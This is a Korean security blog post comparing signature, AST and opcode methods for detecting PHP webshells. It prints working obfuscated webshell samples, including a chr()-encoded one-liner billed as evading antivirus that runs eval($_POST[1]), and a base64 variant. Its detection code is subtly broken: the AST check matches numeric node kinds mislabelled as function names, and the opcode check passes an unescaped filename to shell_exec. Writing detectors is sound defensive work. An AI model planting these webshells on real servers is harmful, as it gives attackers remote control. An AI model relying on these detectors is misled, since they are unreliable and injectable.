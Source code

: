 ```yaml
---
title: PHP 웹쉘 탐지- 시그니처 vs AST vs Opcode 분석
data: 2025-02-14 09:30:14
categories: [security]
tags: [network, security, server, php, webshell]    # TAG names should always be lowercase
---
```


## 1. 개요
PHP 웹쉘은 해커들이 원격에서 서버를 제어하는 데 사용되는 악성 코드입니다. 일반적으로 `eval()`, `system()`, `exec()` 등의 위험한 함수를 사용하며, 다양한 난독화 기법을 통해 탐지를 우회하려 합니다.

이번 글에서는 **시그니처 기반 탐지**, **AST(Abstract Syntax Tree) 분석**, **Opcode 분석**을 활용하여 웹쉘을 탐지하는 방법을 다룹니다.

---

## 2. 기존 시그니처 기반 탐지의 한계
가장 간단한 방법은 웹쉘의 특정 문자열을 탐지하는 시그니처 기반 방식입니다.

```php
if (strpos($code, 'system(') !== false || strpos($code, 'eval(') !== false) {
    echo "[!] 웹쉘 탐지됨!";
}
```

하지만 이 방식은 아래와 같은 변형된 코드에서 탐지가 어렵습니다.

### 🚨 난독화된 웹쉘 예제
```php
$a = 'sys' . 'tem';
$b = 'ls';
$a($b);
```

```php
$func = 'base'.'64'.'_decode';
$eval_code = $func('ZXZhbCgkX1BPU1RbJ2NvbW1hbmQnXSk=');
eval($eval_code);
```

이처럼 문자열을 조합하거나 `base64_decode()`를 사용하면, 기존의 문자열 검색 방식으로는 탐지가 어렵습니다.

---

## 3. AST 분석을 활용한 탐지
PHP의 AST(Abstract Syntax Tree) 분석을 활용하면, 코드의 문법 구조를 직접 분석하여 탐지할 수 있습니다.

### 🔹 AST 분석 예제
```php
function detect_ast_webshell($code) {
    $ast = ast\parse_code($code, 80);

    $dangerous_functions = [66, 134, 132, 67, 131]; // SYSTEM, EVAL, EXEC, SHELL_EXEC, PASSTHRU

    foreach ($dangerous_functions as $func) {
        if (strpos(json_encode($ast), "\"kind\":$func") !== false) {
            echo "[!] 웹쉘 의심 코드 발견: AST 노드 $func 사용\n";
            return true;
        }
    }
    
    echo "[*] 안전한 코드\n";
    return false;
}
```

### ✅ AST 분석의 장점
- **난독화된 코드도 탐지 가능** (문자열 조합 방식 우회 방지)
- **코드 실행 구조를 파악하여 웹쉘 여부 판단 가능**
- **기존 시그니처 탐지 방식보다 강력함**

---

## 4. Opcode 분석을 활용한 탐지
Opcode(바이트코드) 분석을 활용하면, 실제 실행될 코드의 명령어를 분석하여 탐지할 수 있습니다.

### 🔹 Opcode 분석 예제
```php
function detect_opcode_webshell($filename) {
    $dangerous_opcodes = ['EVAL', 'INCLUDE_OR_EVAL', 'EXEC', 'SYSTEM'];
    $output = shell_exec("php -d vld.active=1 -d vld.execute=0 $filename");
    
    foreach ($dangerous_opcodes as $opcode) {
        if (strpos($output, $opcode) !== false) {
            echo "[!] 위험한 Opcode 발견: $opcode in $filename\n";
            return true;
        }
    }
    echo "[*] 안전한 코드: $filename\n";
    return false;
}
```

### ✅ Opcode 분석의 장점
- **실제로 실행될 명령어를 분석하여 높은 탐지율 제공**
- **난독화된 코드라도 최종 실행 명령을 기반으로 탐지 가능**

---

## 5. 실제 난독화된 PHP 웹쉘 탐지 실습
아래는 `chr()` 함수로 난독화된 PHP 웹쉘입니다.

```php
// 过各大杀软的pHp一句话.php
<?$_uU=chr(99).chr(104).chr(114);
$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).
$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).
$_uU(49).$_uU(93).$_uU(41).$_uU(59);
$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).
$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).
$_uU(105).$_uU(111).$_uU(110);
$_=$_fF("",$_cC);@$_();?>
```

이 코드의 실행 결과는 결국 `eval($_POST[1]);`를 실행하는 웹쉘입니다.  
AST 및 Opcode 분석을 활용하면 이 코드도 탐지할 수 있습니다.

---

## 6. 결론: 어떤 방식이 가장 효과적일까?

| 방법              | 장점                                 | 단점                                             |
| ----------------- | ------------------------------------ | ------------------------------------------------ |
| **시그니처 탐지** | 빠르고 단순함                        | 난독화된 코드 탐지 어려움, 변종 웹쉘 대응 어려움 |
| **AST 분석**      | 난독화된 코드도 구조적으로 탐지 가능 | AST 파싱 비용 발생 (약간의 성능 저하)            |
| **Opcode 분석**   | 실행될 코드만 분석하여 정확도가 높음 | VLD 확장 필요, PHP 내부 실행 필요                |

### 🔥 최적의 탐지 전략
1️⃣ 간단한 웹쉘 탐지 ➝ **시그니처 기반 탐지**  
2️⃣ 난독화된 웹쉘 탐지 ➝ **AST 분석**   
3️⃣ 새로운 변종 웹쉘까지 대응 ➝ **Opcode 분석**   

결국 **기본적인 시그니처 탐지를 사용하면서 AST 및 Opcode 분석을 결합하는 것이 가장 효과적인 방법**입니다. 🚀



